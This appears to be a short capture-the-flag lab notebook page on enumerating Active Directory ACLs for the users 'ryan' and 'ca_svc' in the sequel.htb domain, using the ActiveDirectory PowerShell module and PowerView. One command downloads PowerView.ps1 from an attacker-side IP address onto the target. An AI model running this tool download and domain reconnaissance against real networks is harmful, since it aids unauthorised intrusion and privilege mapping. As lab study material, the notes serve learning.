 ## Playing with ActiveDirectory

I'm going on a bit of a tangent here, trying to get familiar with windows things in various different ways

### Powershell ActiveDirectory Module (on Windows)

- [understanding-get-acl-and-ad-drive-output](https://devblogs.microsoft.com/powershell-community/understanding-get-acl-and-ad-drive-output/)

Trying to get ryan's ACLs manually, directly from Powershell

```bash
Import-Module ActiveDirectory
Get-Module
Get-Command -Module ActiveDirectory
```
```bash
Get-ADUser ryan
(Get-ADUser ryan).DistinguishedName
```
```bash
Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb"
(Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb").Access
```

### PowerView.ps1 (On Windows)

Trying to get ryan's ACLs manually, from PowerView

-[powerview docs](https://powersploit.readthedocs.io/en/latest/Recon/)

```bash
iwr "http://10.10.16.70:9090/PowerView.ps1" -o .\PowerView.ps1
Import-Module .\PowerView.ps1
Get-Module
Get-Command -Module PowerView
```
```bash
Get-DomainUser -Identity ryan
(Get-DomainUser -Identity ryan).objectsid
(Get-DomainUser -Identity ryan).distinguishedname
(Get-DomainUser -Identity ryan).samaccountname
```
```bash
Get-DomainUser -Identity ca_svc
(Get-DomainUser -Identity ca_svc).objectsid
(Get-DomainUser -Identity ca_svc).distinguishedname
(Get-DomainUser -Identity ca_svc).samaccountname
```
```bash
Get-Help Get-DomainObjectAcl -full
Get-DomainObjectAcl -ResolveGUIDs -Identity "S-1-5-21-548670397-972687484-3496335370-1114"
Get-DomainObjectAcl -ResolveGUIDs -Identity "CN=ryan howard,CN=users,DC=sequel,DC=htb"
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
```
